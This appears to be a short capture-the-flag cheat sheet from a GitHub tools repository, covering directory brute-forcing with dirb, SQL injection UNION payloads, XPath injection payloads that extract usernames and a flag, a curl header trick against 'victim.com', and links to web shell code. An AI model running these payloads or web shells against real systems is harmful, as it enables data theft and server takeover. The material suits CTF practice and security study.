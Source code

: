 Directory traversal attack
-

* [`dirb`](https://tools.kali.org/web-applications/dirb)

	* `dirb <target-address>`


JavaScript
-

* `shell`
	
	node command line шеллийг ашиглаж болно.


SQLi
-

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

XPath Injection
-

`'or string-length(name(.))=5 or '!'='`
`' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='`
`'or contains(.,'admin') or'`
`"amine' or (substring((//flag)[1], 1, 1)) = 'a`

Curl
-

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	
Web shells
-

* `Shells`
	
	* [dict.txt](https://github.com/ByamB4/Capture-The-Flag-Tools/blob/master/Web/shells/list.txt)
	* [\*.php](https://github.com/ByamB4/Capture-The-Flag-Tools/tree/master/Web/shells/code)
